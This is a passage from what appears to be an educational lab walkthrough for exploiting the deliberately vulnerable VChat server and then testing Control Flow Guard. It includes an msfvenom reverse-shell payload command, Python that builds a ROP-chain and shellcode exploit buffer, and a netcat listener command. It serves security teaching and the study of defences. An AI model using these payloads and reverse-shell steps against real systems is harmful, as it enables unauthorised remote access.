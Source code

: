 13. Now we can add a payload to our exploit, this can be generated with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). Once generated modify your exploit code to reflect [exploit6.py](./SRC/Exploits/exploit6.py).
    ```
    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d'
    ```

14. We generate the payload with the following structure:
    ```
    buff = 8

    PAYLOAD = (
        b'FUNCC /.' +
        create_rop_chain() + 
        b'\x90' * buff + 
        SHELL +
        b'\x90' * (792 - (len(create_rop_chain()) + len(SHELL) + buff)) +
        struct.pack('<L', 0x00403C02) # This will need to be a function in a module with CFG enabled
    )
    ```
> [!NOTE]
> We put the Shellcode after 2 bytes or more of `NOP` instructions to prevent any conflicts/overwrites the VirtualProtect function would cause.

15. Start a Netcat listener on the Kali machine in a new terminal. 
    ```
    $ nc -l -v -p 8080
    ```
16. Run the Exploit and observe the results! 

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/5eb82fe9-ffdd-433f-a7bf-a8b7b69ddbbf

### CFG Enabled 
This section will use the [exploit6.py](./SRC/Exploits/exploit6.py) script we previously created. However, in this scenario we will enable the CFG protections we have previously disabled. This also means if you chose to do the previous section with DEP and ASLR disabled you will also need to enabled those protections for CFG to work properly and raise exceptions.

1. Open the VChat project in Visual Studio and select `Project -> Properties`.

